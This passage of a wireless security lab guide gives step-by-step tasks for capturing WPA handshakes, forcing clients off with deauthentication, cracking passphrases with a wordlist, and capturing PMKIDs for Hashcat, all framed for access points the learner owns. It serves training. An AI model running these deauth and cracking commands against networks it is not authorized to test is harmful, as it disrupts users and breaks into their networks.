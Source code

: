 **Assessment:** Identify a target AP you control for later tasks.

---

## Task 3 — Focused capture of WPA handshake (Beginner → Intermediate)
**Objective:** Capture a WPA/WPA2 4‑way handshake for a target AP you own.

**Required:** Target AP (owned/test AP), at least one client associated.

**Steps:**
1. `sudo airodump-ng --bssid <BSSID> -c <channel> -w /tmp/handshake wlan0mon`
2. In another terminal, force reconnect with deauth: `sudo aireplay-ng --deauth 5 -a <BSSID> wlan0mon` (or target client with `-c <CLIENT_MAC>`).
3. Watch airodump terminal for `WPA handshake: <BSSID>` indicator.
4. Stop capture and verify with `aircrack-ng -J` or by inspecting cap file.

**Expected:** Capture file contains handshake; airodump shows the handshake indicator.

**Hints:** Lock to the channel to avoid missed packets; deauth specific client if general deauth doesn't trigger reconnection.

---

## Task 4 — Crack captured handshake with a wordlist (Intermediate)
**Objective:** Use a wordlist to attempt to crack the captured WPA handshake.

**Required:** Capture from Task 3, wordlist (e.g., `rockyou.txt`).

**Steps:**
1. `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <BSSID> /tmp/handshake-01.cap`
2. Observe whether passphrase is found.

**Expected:** If passphrase is in the wordlist, aircrack-ng prints it; otherwise, it fails.

**Assessment:** If failure, discuss next steps (custom wordlists, rules, or Hashcat for GPU cracking).

---

## Task 5 — PMKID capture with hcxdumptool (Intermediate)
**Objective:** Capture PMKID from AP (useful when client handshakes are hard to obtain) and convert to Hashcat format.

**Steps:**
1. Put adapter into monitor mode (`wlan0mon`).
2. `sudo hcxdumptool -o dump.pcapng -i wlan0mon --enable_status=1`
3. Run until you capture valid PMKID entries.
4. Convert: `hcxpcapngtool -o hashcat.22000 dump.pcapng`

**Expected:** `hashcat.22000` file ready for Hashcat cracking with `-m 22000`.

**Hints:** Some APs may not reveal PMKID; ensure driver supports required features.

---